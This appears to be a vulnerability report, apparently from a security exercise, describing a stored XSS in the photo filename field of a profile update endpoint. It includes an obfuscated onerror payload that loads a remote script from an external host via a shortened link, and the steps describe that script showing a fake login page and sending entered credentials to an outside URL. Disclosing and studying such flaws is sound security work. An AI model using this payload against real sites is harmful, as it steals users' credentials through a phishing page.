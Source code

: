 # Vulnerability 11: Stored XSS in photo filename

- Vulnerability: Stored XSS
- Where: `photo` in `POST /update_profile`
- Impact: Allows to run any script in browser viewing any page with uploaded user photo

## Steps to reproduce

1. Register a new user (if you already have an user you can go to step 2)
2. Login as that user
3. Update profile using following value as `filename` for `photo`

```html
 onerror=s=document.createElement(String.fromCharCode(115,99,114,105,112,116));s.src=String.fromCharCode(104,116,116,112,115,58,47,47,98,105,116,46,108,121,47,51,55,70,51,75,66,66);document.body.appendChild(s)
```

4. The filename will be used as part of HTML `<img src="./static/photos/l1cpn9ud_" onerror="s=document.[...].appendChild(s)" alt="" width="50" height="50">`
5. Viewing user's posts and profile causing execution of inserted `onerror` javascript.
5. Page edited by this javascript will load script via `https://bit.ly/37F3KBB` from `https://qwsk.000webhostapp.com/x.js`
6. This script than replaces viewed page with edited copy of login page.
7. Data that user inputs into attacker's version of login page are than send to `https://qwsk.000webhostapp.com/thx.php`.

[(POC)](vuln11.py)
